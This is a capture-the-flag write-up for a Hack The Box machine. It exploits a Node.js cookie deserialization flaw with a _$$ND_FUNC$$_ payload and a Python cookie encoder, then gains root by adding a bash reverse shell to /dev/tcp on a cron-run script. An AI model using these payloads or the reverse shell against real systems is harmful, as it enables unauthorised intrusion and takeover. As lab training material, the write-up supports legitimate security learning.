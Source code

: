 # Box 



![image-20210326161654516](img/image-20210326161654516.png)

https://www.hackthebox.eu/home/machines/profile/130

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.85 10.10.10.85
```

![image-20210326161759985](img/image-20210326161759985.png)

Let's take a look on the website : 

![image-20210326174140931](img/image-20210326174140931.png)

Nothing interesting. I started burp to see what we can do.

![image-20210326174220467](img/image-20210326174220467.png)

I searched for "X-Powered-By: Express" and found out that it is running nodeJS. 



When looking for exploits, I found some link about deserialization with the cookie .

https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf



The cookie is encoded with base64. We can see the payload : 

![image-20210326174454221](img/image-20210326174454221.png)

Let's modify the number to 4.

![image-20210326174519148](img/image-20210326174519148.png)

It seems that we are injecting something. Let's try to put a string and not a number. 

![image-20210326174602374](img/image-20210326174602374.png)

We triggered an error. It seems that it is using eval. Let's dig a bit more on the internet for some exploits. 

## Exploitation

I found this link very useful : 

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

If you follow the same steps you can also use the `nodejsshell.py` to generate our own payload. 

![image-20210326174859222](img/image-20210326174859222.png)



We need to add `_$$ND_FUNC$$_function (){our_payload()}`to create a RCE. That's what I did and this what it looks like : 

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"_$$ND_FUNC$$_function (){ #Insert what nodejsshell.py gave you }()"}
```

 I've done my own exploit to not be annoyed by the encoding : 

```python
from base64 import b64encode
payload = "_$$ND_FUNC$$_function (){{ {} }}()"

port_1234=#Insert what nodejsshell.py gave you
cookie='{{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{}"}}'

full_cookie = cookie.format(payload.format(port_1234))
print(full_cookie)
print(b64encode(full_cookie))

```

We have a shell :

![image-20210326182855179](img/image-20210326182855179.png)

## Post-Exploitation

### User

We are already the user.

![image-20210326183004265](img/image-20210326183004265.png)

### Root

I found in a syslog a very interesting information : 

![image-20210326185818748](img/image-20210326185818748.png)

Root is executing a python script owned by sun every 5min.



Just modify your script.py and add :

```bash
os.system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/1238 <&1'") 
```

Now you have to wait for 5 min....

![image-20210326185929372](img/image-20210326185929372.png)

Rooted.